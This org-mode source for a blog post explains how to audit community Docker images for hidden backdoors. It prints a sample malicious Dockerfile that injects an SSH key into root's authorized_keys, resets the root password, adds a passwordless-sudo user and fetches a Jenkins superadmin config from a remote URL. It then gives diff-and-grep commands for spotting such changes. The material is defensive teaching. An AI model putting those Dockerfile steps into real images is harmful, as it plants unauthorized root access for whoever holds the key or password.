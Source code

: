 * Audit Docker Image Security                                   :BLOG:Docker:
  :PROPERTIES:
  :type:     DevOps,Docker,Security,Popular
  :END:
---------------------------------------------------------------------
Nowadays people are happy to use community Docker images. It's super fast and easy to setup infrastructure, compared to old black days. But watch out security risks hidding inside!

Ignoring them could result in serious damages sooner or later. *How to easily identity security holes inside docker images*?

[[image-blog:Docker Image Security][https://www.dennyzhang.com/wp-content/uploads/denny/docker_image_scan.jpg]]

---------------------------------------------------------------------
** Common Security Issues Inside Public Docker Images
Here is a simple example. Doubtless it will misleading and hard to diagnose in real world.

- In L18-19, a ssh key is injected to to authorized_keys. If you start sshd, you're in danger.
- In L22, root password has been reset. Not good, isn't it?
- In L25-26, a malicious OS user has been added.
- In L29-31, the user has been promoted as super admin, and he/she can run any commands without password!
- In L34-36, your jenkins has an unpleasant admin user now. Yes, Jenkins is hot and popular. You can do a lot of things with Jenkins. So do the hackers! This case represents *security of application layer*. It's certainly the most dangerous and difficult case.
#+BEGIN_EXAMPLE -n
########## How To Use Docker Image ###############
##
##  Install docker utility
##  Download docker image:
##   docker pull denny/test:v1
##  Boot docker container:
##   docker run -t -P -d --name my-test denny/test:v1 /bin/bash
##
##  Build Image From Dockerfile.
##   docker build -f Dockerfile -t denny/test:v1 --rm=false .
##################################################

FROM ubuntu:14.04
MAINTAINER Denny <denny@dennyzhang.com>

RUN mkdir -p /root/.ssh && \
  # SSH login by key file
  echo "ssh-rsa AAAAB3NzaC1...lOvno6KN5 denny@dennyzhang.com" \
       >> /root/.ssh/authorized_keys && \

  # Reset root password
  echo 'root:ChangeMe1' | chpasswd && \

  # Add a malicious user
  useradd denny && \
  echo 'denny:ChangeMe1' | chpasswd && \

  # Add user to super admin
  echo '%denny ALL=(ALL:ALL) NOPASSWD: ALL' > \
        /etc/sudoers.d/admins && \
  chmod 400 /etc/sudoers.d/admins && \

  # Add superadmin user to
  mkdir -p /var/lib/jenkins/users/superadmin && \
  wget -O /var/lib/jenkins/users/superadmin/config.xml \
    https://github.com/dennyzhang/devops_public/raw/tag_v6/doc/admin_conf_xml

CMD ["/bin/bash"]
#+END_EXAMPLE
** Dump Change List Of Docker Images
Apparently we still want to use community docker images. Just need to rule out insecure ones. Also audit potential security risks as many as possible. Docker images are built directly or indirectly from golden images provided by trusted sources. Original golden docker images are usually clean. *So literally speaking, what changes community docker images have made*?

People can inspect change of docker containers by "[[https://docs.docker.com/engine/reference/commandline/diff][docker diff $container_id]]". Unfortunately docker doesn't support [[https://github.com/docker/docker/issues/12641][images comparison]]. Here is a feasible workaround:
- List all files in golden image like below.
#+BEGIN_EXAMPLE
container_name="container1"
docker_image="ubuntu:14.04"
result_list="/tmp/list1.txt"
docker stop $container_name; \
 docker rm $container_name || true
# Start a container from golden image
docker run -t --name $container_name \
 -d $docker_image /bin/bash

# List all files inside the container
docker export $container_name | \
  docker run -i --rm ubuntu tar tvf - \
  > $result_list

# Check the list
tail $result_list
# drwxr-xr-x 0/0      0   2016-08-02 08:26 bin/
# -rwxr-xr-x 0/0  21112   2014-10-07 19:22 bin/bash
# -rwxr-xr-x 0/0  31152   2013-10-21 13:15 bin/bunzip2
# lrwxrwxrwx 0/0      0   2013-10-21 13:15 bin/bzcmp -> bzdiff
# -rwxr-xr-x 0/0   2140   2013-10-21 13:15 bin/bzdiff
# ...
#+END_EXAMPLE

- List all files in problematic image. Note it might take tens of minutes for large images.
#+BEGIN_SRC sh
container_name="container2"
docker_image="denny/gitlab:v1"
result_list="/tmp/list2.txt"
docker stop $container_name; \
 docker rm $container_name || true
# Start a container from golden image
docker run -t --name $container_name \
 -d $docker_image /bin/bash

# List all files inside the container
docker export $container_name | \
  docker run -i --rm ubuntu tar tvf - \
  > $result_list

# Check the list
tail $result_list
#+END_SRC

- Compare Two list
#+BEGIN_EXAMPLE
result1="/tmp/list1.txt"
result2="/tmp/list2.txt"
diff_result="/tmp/diff.txt"

diff $result1 $result2 > $diff_result

tail $diff_result
# > drwxr-xr-x 0/0     0  2015-12-20 13:34 var/spool/postfix/pid/
# > drwx------ 103/0   0  2015-12-20 13:34 var/spool/postfix/private/
# > drwx--s--- 103/0   0  2015-12-20 13:34 var/spool/postfix/public/
# > drwx------ 103/0   0  2015-12-20 13:34 var/spool/postfix/saved/
#+END_EXAMPLE

- Check for security vulnerability
#+BEGIN_SRC sh
diff_result="/tmp/diff.txt"

# Check ssh authorized login
grep authorized_keys $diff_result

# check OS users
grep "etc/group" $diff_result

# Check sudo users
grep "etc/sudoers.d" $diff_result

# Check ssh key pair
grep ".ssh/.*id_rsa" $diff_result

# Add your checks in below
# ...
# ...
#+END_SRC

After the test, remember to remove useless containers.

Posts: [[https://www.dennyzhang.com/tag/docker][Tag #docker]]
[display-posts tag="docker" posts_per_page="20"]
#+BEGIN_HTML
<a href="https://github.com/dennyzhang/www.dennyzhang.com/tree/master/posts/docker_image_scan"><img align="right" width="200" height="183" src="https://www.dennyzhang.com/wp-content/uploads/denny/watermark/github.png" /></a>

<div id="the whole thing" style="overflow: hidden;">
<div style="float: left; padding: 5px"> <a href="https://www.linkedin.com/in/dennyzhang001"><img src="https://www.dennyzhang.com/wp-content/uploads/sns/linkedin.png" alt="linkedin" /></a></div>
<div style="float: left; padding: 5px"><a href="https://github.com/dennyzhang"><img src="https://www.dennyzhang.com/wp-content/uploads/sns/github.png" alt="github" /></a></div>
<div style="float: left; padding: 5px"><a href="https://www.dennyzhang.com/slack" target="_blank" rel="nofollow"><img src="https://slack.dennyzhang.com/badge.svg" alt="slack"/></a></div>
</div>

<br/><br/>
<a href="http://makeapullrequest.com" target="_blank" rel="nofollow"><img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg" alt="PRs Welcome"/></a>
#+END_HTML

Blog URL: https://www.dennyzhang.com/docker_image_scan
* org-mode configuration                                           :noexport:
#+STARTUP: overview customtime noalign logdone showall
#+DESCRIPTION: 
#+KEYWORDS: 
#+AUTHOR: Denny Zhang
#+EMAIL:  denny@dennyzhang.com
#+TAGS: noexport(n)
#+PRIORITIES: A D C
#+OPTIONS:   H:3 num:t toc:nil \n:nil @:t ::t |:t ^:t -:t f:t *:t <:t
#+OPTIONS:   TeX:t LaTeX:nil skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+EXPORT_EXCLUDE_TAGS: exclude noexport
#+SEQ_TODO: TODO HALF ASSIGN | DONE BYPASS DELEGATE CANCELED DEFERRED
#+LINK_UP:   
#+LINK_HOME: 
